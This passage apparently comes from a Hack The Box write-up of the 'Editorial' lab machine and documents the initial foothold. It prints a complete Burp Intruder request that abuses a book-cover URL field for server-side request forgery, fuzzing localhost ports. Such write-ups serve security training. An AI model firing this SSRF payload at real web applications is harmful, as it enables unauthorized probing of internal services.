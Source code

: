 ## Foothold

### Server-Side Request Forgery (SSRF)

As first test we checked if we could generate any output while trying to access only locally available ports. Since we got nothing on port `80/TCP`, we forwarded the request we generated after entering `http://127.0.0.1:80` as `URL` and by clicking on the button to show us a `preview` of the potential cover.

#### Intruder Payload

```c
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 309
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8o9w45I1Pb2Btnml
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary8o9w45I1Pb2Btnml
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:§80§
------WebKitFormBoundary8o9w45I1Pb2Btnml
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary8o9w45I1Pb2Btnml--

```

![](images/2024-06-16_03-06_intruder_payload.png)
